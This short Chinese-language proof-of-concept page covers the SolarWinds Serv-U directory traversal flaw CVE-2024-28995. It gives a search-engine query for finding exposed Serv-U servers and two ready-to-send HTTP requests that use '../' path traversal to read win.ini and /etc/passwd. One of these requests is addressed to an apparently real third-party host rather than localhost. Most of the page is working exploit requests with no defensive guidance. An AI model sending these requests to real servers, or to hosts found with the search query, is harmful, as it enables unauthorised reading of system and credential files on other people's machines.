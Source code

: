 # SolarWinds Serv-U 目录遍历漏洞(CVE-2024-28995)

### 1.漏洞描述

Serv-U 的目录遍历漏洞（CVE-2024-28995）是由于在处理路径时缺乏适当的验证。攻击者可以通过传递包含 “…/” 的路径段绕过路径验证，访问任意文件。

### 2.搜索语法

```plain
server="Serv-U"
```

### 3.漏洞复现

Windows-poc

```plain
GET /?InternalDir=/../../../../windows&InternalFile=win.ini HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive


```

![image](https://github.com/hardog123/poc-exp/assets/170905460/d54ff660-fa8c-4d94-b208-0819eb5c156f)


Linux-poc

```plain
GET /?InternalDir=\..\..\..\..\etc&InternalFile=passwd HTTP/1.1
Host: bbs.calgaryimageanalysis.ca
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
```

![image](https://github.com/hardog123/poc-exp/assets/170905460/3e51a85a-4393-4bfb-9441-21a94c43eea3)
